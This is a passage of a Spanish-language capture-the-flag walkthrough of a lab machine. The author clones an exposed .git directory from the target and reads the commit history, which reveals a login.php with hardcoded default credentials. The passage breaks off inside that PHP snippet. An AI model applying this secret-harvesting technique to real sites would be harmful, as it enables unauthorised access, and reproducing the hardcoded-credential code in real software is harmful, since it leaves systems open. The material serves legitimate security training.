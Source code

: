 No tenemos credenciales ssh por lo que pasamos al escaneo del recurso web.

De primeras tenemos un panel de login, pero seguimos sin credenciales.

Vemos que hay un repositorio git expuesto en la ruta `192.168.18.98:80/.git/` le echamos un ojo y nos lo clonamos a nuestro equipo para analizarlo más a fondo.

```bash
❯ wget -r http://192.168.18.98/.git/
```

Una vez con esto clonado, procedemos a revisar el log en busca de cambios interesantes.

```bash
❯ git log
commit 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 (HEAD -> master)
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:14:32 2021 +0300

    i changed login.php file for more secure

commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

commit aa2a5f3aa15bb402f2b90a07d86af57436d64917
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:02:44 2021 +0300

    First Initialize
    ~~~

Vemos que en el `commit a4d900a8d85e8938d3601f3cef113ee293028e10` dice que añade el login.php con credenciales por defecto. Vamos a ver de que se trata.

~~~bash
❯ git show a4d900a8d85e8938d3601f3cef113ee293028e10
commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

diff --git a/login.php b/login.php
index e69de29..8a0ff67 100644
--- a/login.php
+++ b/login.php
@@ -0,0 +1,42 @@
+<?php
+session_start();
+require 'config/config.php';
+if($_SERVER['REQUEST_METHOD'] == 'POST'){
+    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+        $_SESSION['userid'] = 1;
...
```
